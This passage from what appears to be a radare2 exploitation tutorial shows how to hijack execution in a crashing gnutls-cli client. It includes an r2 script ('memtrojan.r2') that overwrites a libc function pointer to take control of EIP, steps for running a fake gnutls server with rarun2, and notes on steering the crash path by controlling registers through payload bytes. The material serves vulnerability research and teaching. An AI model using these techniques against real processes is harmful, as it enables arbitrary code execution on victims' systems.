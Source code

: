 This is.. if we found a write-what-where somewhere we can just overwrite this rabbit pointer with another to hold the address we want to jump. 

Trojanizing the handler
-----------------------
As long as that pointer comes from the libc, we can trick the memory of the running process to make it spawn a shell or run the code we like by patching the pointer hold inside the `ebx-0x98` cave. For this demo we will modify the libc's heap. this is a read-write memory portion, so, if we find a write-what-where in the code this may be exploited by providing the proper payload.

	$ cat memtrojan.r2
	f carrot = `dm~rw- /usr/lib/libc[1]`
	s carrot-0x98
	f rabbit = `xw 1~[1]`
	wx 41414141 @ rabbit

The script sets the carrot pointer at the first read write section of the libc and substracts 0x98. This offset is the static pointer that libc uses for retrieving the pointer to jump. In pseudocode:

	carrot = findSection('libc','rw').offset
	rabbit = 4[carrot-0x98]
	4[rabbit] = 0x41414141

In one terminal run the following command to start the fake gnutls server:

	$ rarun2 program=./payload.sh listen=8080 sleep=10

In the second terminal we do:

	$ r2 -d "gnutls-cli -p 8080 localhost"

Inside the r2 prompt type `dc` to continue the execution of the program. It will connect, but will not crash inmediately, we have a gap of 10 seconds to press ^C and inspect the process.

At this point we may like to run `dm` to see the memory maps of the program, `dr` to view the registers or run `pd` to disassemble code.

	> . memtrojan.r2
	> dc

The program will crash at `eip=0x41414141`.


Other paths
--------

As long as we control some registers, we can let the program flow to different paths or just bypass the conditionals to reach the desired path. For example, our first crash happens here:

	mov ecx, [ecx-4]
	test cl, 2
	jne 0xb755638

As long as we control `ecx` modifying the `0xa0` byte of the payload. We can set a valid pointer to this address. This is for example `0x8048004`. Let's run again and see where it's crashing.

Sometimes setting some pointers to NULL allows to bypass some checks, and other values just fall into a tgkill() syscall that aborts the execution of the program.
